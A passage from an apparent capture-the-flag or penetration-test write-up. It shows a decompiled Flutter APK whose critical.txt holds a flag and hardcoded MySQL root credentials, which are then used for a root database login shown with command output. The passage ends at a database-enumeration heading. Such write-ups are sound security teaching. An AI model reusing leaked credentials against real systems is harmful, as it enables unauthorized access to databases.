 The decompiled APK revealed a Flutter-based application with the following structure:

```c
apk_decoded/
├── AndroidManifest.xml
├── assets/
│   └── flutter_assets/
│       ├── assets/
│       │   └── critical.txt
│       ├── fonts/
│       ├── packages/
│       └── ...
├── lib/
├── res/
└── ...
```

### 9.2 **Sensitive Information Discovery**

The `critical.txt` file contained hardcoded credentials and a flag:

```plaintext
final String flag = "LASTHOPE";
final String mysqlUser = "root";
final String mysqlPassword = "root";
```

These credentials were confirmed to be valid for the MySQL database running on the target system.

## 10. **PERSISTENCE ESTABLISHMENT**

### 10.1 **MySQL Database Access**

Using the discovered credentials, access to the MySQL database was obtained:

```bash
root@target:/# mysql -u root -p
Enter password: root
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 8
Server version: 8.0.23 MySQL Community Server - GPL

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

### 10.2 **Database Enumeration**
